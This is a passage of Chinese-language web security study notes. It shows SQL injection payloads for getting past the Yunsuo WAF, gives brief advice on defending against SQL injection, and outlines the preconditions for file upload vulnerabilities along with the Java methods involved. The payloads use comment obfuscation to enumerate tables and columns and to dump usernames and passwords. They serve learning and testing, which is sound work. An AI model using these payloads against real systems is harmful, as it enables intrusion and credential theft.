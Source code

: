 
### 绕过云锁

```
?id=-1%20union/*!99999aaaa*/select%201,2,3
?id=-1%20union/*!99999aaaa*/select%201,database/*!99999aaaa*/(),3	database被过滤
?id=-1%20union/*!99999aaaa*/select%20--1,(select%20group_concat(table_name)from%20information_schema.tables),3	select... from被过滤
?id=-1%20union/*!99999aaaa*/select%20--1,(select%20group_concat(table_name)from%20information_schema.tables%20where%20table_schema=database()),3	爆表名
?id=111%20union/*!99999aaaa*/select%20--1,(select%20group_concat(column_name)from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27users%27),3	爆字段
?id=-1%20union/*!99999aaaa*/select%20--1,(select%20group_concat(concat(username,%27~%27,password))from%20security.users),3	查数据
```

## SQL注入防御

- sql预编译
- 后端服务对接受的参数进行合法性验证，如匹配特定的参数类型
- 严格过滤SQL语句中的关键字和特殊符号

# 文件上传漏洞

## 利用前提

- 参数可控：文件名，文件内容，[文件路径]
- 上传文件位于服务器可解析脚本的web目录
- 可直接或间接获取上传文件的绝对路径或相对路径

## 文件上传代码

### 文件写入

Java Native

- FileOutputStream
- FileInputStream
- outputStream.write

SpringBoot

uploadFile.transferTo

### 文件解压缩

Java Native

ZipEntry

### 文件移动（重命名）

